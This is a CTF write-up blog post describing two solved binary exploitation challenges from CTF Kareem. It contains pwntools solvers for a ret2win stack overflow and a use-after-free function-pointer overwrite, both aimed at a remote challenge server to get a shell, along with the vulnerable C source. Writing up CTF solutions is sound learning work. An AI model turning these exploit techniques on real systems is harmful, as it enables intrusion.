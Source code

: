 ```yaml
---
title: CTF Kareem Writeups
description: This is a writeup of the challenges I have solved during the CTF kareem organized by Securinet TEKUP.
author: alternox
date: 2025-03-15 12:00:00 +0000
categories: [Blogging, Writeups]
tags: [Writeups]
render_with_liquid: false
image:
  path: /assets/img/ctfkareem2025/ctfkareemlogo.jpg
---
```


بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ


## Event description

CTF Kareem was a CTF orgnanized by Securinets TEKUP During Ramadhan, an overnight CTF for about 10.30 Hours, me and my team played as "Kaskrout b tey" and landed the first place.

![Scoreboard](/assets/img/ctfkareem2025/scoreboard.jpg)

## Binary Exploitation
### The River's Daughter
Challenge: 
![First Pwn Task](/assets/img/ctfkareem2025/pwntask1.png)

This is a simple ret2win challenge, so we do the usual, calculating the offset then getting the win address:

```python
#!/bin/python3
from pwn import *

local = False
name = 'main' 
e = ELF(name)
if local:
	p = process(name)
else:
	p = remote("51.77.140.155", 1329)
rop = ROP(e)

ret= 0x000000000040101a
win = 0x000000000040132d

payload = cyclic(64+8)
payload += p64(win+1)
p.recv()
p.sendline(payload)
p.interactive()
```

![First Pwn Task](/assets/img/ctfkareem2025/pwntask1solved.png)

flag : `Securinets{sh3_1s_th3_FL4G}`

### Patrick Bateman
Challenge: 
![First Pwn Task](/assets/img/ctfkareem2025/pwntask2.png)

This challenge was a bit tricky, but it had the cource code attached to it:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <stdint.h>

typedef struct string {
    uint64_t length;
    char *data;
    void (*print_string) (char*);
}string;

void hacked() {
    system("/bin/sh");  
}

void print_string(char* s){
    printf("%s", s);
}

int main() {
    string *s = malloc(sizeof(string));  
    if (s == NULL) {
        perror("malloc failed");
        return 1;
    }

    puts("welcome patrick give the string length: ");
    scanf("%u", &s->length);

    s->data = malloc(s->length + 1);
    if (s->data == NULL) {
        perror("malloc failed");
        return 1;
    }
    memset(s->data, 0, s->length + 1);

    puts("Enter something");
    read(0, s->data, s->length);
    s->print_string = print_string;
    free(s->data);  
    free(s);        

    char *s2 = malloc(24);  
    if (s2 == NULL) {
        perror("malloc failed");
        return 1;
    }

    puts("Enter more");
    read(0, s2, 24);

    printf("well? this is your thing\n");
    s->print_string(s->data);

    free(s2);
    return 0;
}
```

solver: 

```python
#!/bin/python3
from pwn import *
local = False
name = 'heap' 
e = ELF(name)

if local:
	p = process(name)
else:
	p = remote("51.77.140.155", 1403)

rop = ROP(e)

win = 0x0000000000401289

p.recv()
p.sendline(b'8')
p.recv()
p.sendline(cyclic(7))
p.recv()
p.sendline(cyclic(16) + p64(0x0401289))
p.interactive()

```
